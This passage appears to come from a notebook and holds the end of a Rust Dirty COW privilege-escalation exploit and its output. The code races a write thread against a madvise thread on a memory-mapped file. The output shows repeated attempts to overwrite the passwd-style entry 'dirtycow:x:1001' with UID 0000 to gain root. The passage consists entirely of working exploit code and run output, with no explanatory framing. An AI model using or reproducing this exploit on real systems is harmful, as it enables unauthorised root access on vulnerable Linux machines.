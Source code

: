 ```Rust
            );

            // Spawn a thread for the write operation
            let write_thread_handle = thread::spawn(move || {
                let _ = perform_write_operation();
            });

            // Spawn a thread for the madvise operation
            let madvise_thread_handle = thread::spawn(move || {
                perform_madvise(file_size);
            });

            // Join the write thread
            write_thread_handle
                .join()
                .expect("Error joining write thread");

            // Join the madvise thread
            madvise_thread_handle
                .join()
                .expect("Error joining madvise thread");

            // Unmap the memory
            munmap(mapped_memory_ptr as *mut c_void, file_size);
        } else {
            eprintln!("Target area not found");
            std::process::exit(1);
        }
    }
    Ok(())
}

main()
```

    Target Area Found at Offset: 180
    Target Area Content: Ok("dirtycow:x:1001")
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Madvising - Content: `dirtycow:x:1001`
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Madvising - Content: `dirtycow:x:1001`
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Madvising - Content: `dirtycow:x:1001`
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Madvising - Content: `dirtycow:x:1001`
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Trying to write `dirtycow:x:0000`...
    Madvising - Content: `dirtycow:x:1001`
    Trying to write `dirtycow:x:0000`...